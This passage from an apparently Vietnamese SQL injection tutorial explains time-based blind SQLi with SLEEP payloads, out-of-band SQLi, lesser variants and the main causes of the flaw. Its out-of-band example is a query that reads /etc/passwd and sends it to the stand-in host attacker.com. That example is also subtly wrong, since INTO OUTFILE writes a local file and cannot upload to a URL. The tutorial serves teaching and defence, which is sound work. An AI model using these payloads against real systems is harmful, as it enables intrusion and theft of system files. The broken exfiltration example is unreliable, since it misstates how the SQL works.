 - **Time-based Blind SQLi:** Kẻ tấn công gửi các truy vấn SQL độc hại để kiểm tra thời gian phản hồi của ứng dụng. Dựa vào thời gian phản hồi, kẻ tấn công có thể suy đoán thông tin về cơ sở dữ liệu.

    ```sql
    SELECT IF(1=1, SLEEP(5), 0); -- Nếu điều kiện đúng, cơ sở dữ liệu sẽ ngủ trong 5 giây
    SELECT IF(1=2, SLEEP(5), 0); -- Nếu điều kiện sai, cơ sở dữ liệu sẽ không ngủ
    ```

<a name="out-of-band-sqli"></a>
### 3. Out-of-band SQLi
Kẻ tấn công không thu thập được kết quả trực tiếp từ phản hồi của ứng dụng web và cũng không thể suy đoán thông tin từ phản hồi gián tiếp. Thay vào đó, họ sử dụng các kỹ thuật khác để thu thập dữ liệu từ cơ sở dữ liệu. Out-of-band SQLi thường yêu cầu cơ sở dữ liệu và ứng dụng web có các kênh truyền thông khác nhau, chẳng hạn như gửi dữ liệu qua email hoặc HTTP requests.

**Ví dụ về Out-of-band SQLi:**

```sql
SELECT LOAD_FILE('/etc/passwd') INTO OUTFILE 'http://attacker.com/data.txt'; -- Kẻ tấn công tải tệp tin lên server của mình thông qua HTTP request
```

**Ngoài ra còn có một số kiểu tấn công SQLi ít phổ biến hơn, bao gồm:**
- **Second-order SQLi:** Kẻ tấn công lợi dụng dữ liệu được lưu trữ trong cơ sở dữ liệu để thực hiện các truy vấn SQL trái phép.
- **NoSQL injection:** Kẻ tấn công nhắm vào cơ sở dữ liệu NoSQL, chẳng hạn như `MongoDB` hoặc `Cassandra`.
- **XML injection:** Kẻ tấn công nhắm vào các ứng dụng web sử dụng XML để xử lý dữ liệu.

<a name="main-cause-of-sql-injection-sqli-vulnerability"></a>
## IV. Nguyên nhân chính của lỗ hổng SQL Injection (SQLi). 
Lỗ hổng `SQL Injection (SQLi)` xuất hiện do nhiều yếu tố khác nhau, nhưng nguyên nhân chính thường là do lỗi trong quá trình lập trình và quản lý ứng dụng web.

<a name="using-unsafe-sql-queries"></a>
### 1. Sử dụng các truy vấn SQL không an toàn
Các truy vấn SQL không an toàn là nguyên nhân chính của lỗ hổng SQL Injection. Khi các truy vấn này không được xây dựng một cách an toàn, chúng có thể bị lợi dụng để thực thi mã SQL độc hại. Điều này thường xảy ra khi các biến đầu vào từ người dùng được nhúng trực tiếp vào truy vấn SQL mà không được kiểm tra hoặc xử lý đúng cách.

<a name="lack-of-checking-and-filtering-input-data"></a>
### 2. Thiếu kiểm tra và lọc dữ liệu đầu vào
Thiếu kiểm tra và lọc dữ liệu đầu vào từ người dùng là một trong những nguyên nhân chính của lỗ hổng SQL Injection. Khi các dữ liệu đầu vào không được kiểm tra và lọc đúng cách, kẻ tấn công có thể chèn mã SQL độc hại vào các trường nhập liệu và khai thác lỗ hổng này.

<a name="using-dangerous-sql-functions"></a>
### 3. Sử dụng các hàm SQL nguy hiểm
Sử dụng các hàm SQL nguy hiểm như `EXEC`, `sp_executesql`, hoặc `eval()` mà không kiểm tra dữ liệu đầu vào có thể dẫn đến lỗ hổng SQL Injection. Các hàm này cho phép thực thi mã SQL động, và khi chúng nhận dữ liệu đầu vào không an toàn, chúng có thể bị lợi dụng để thực thi mã SQL độc hại.

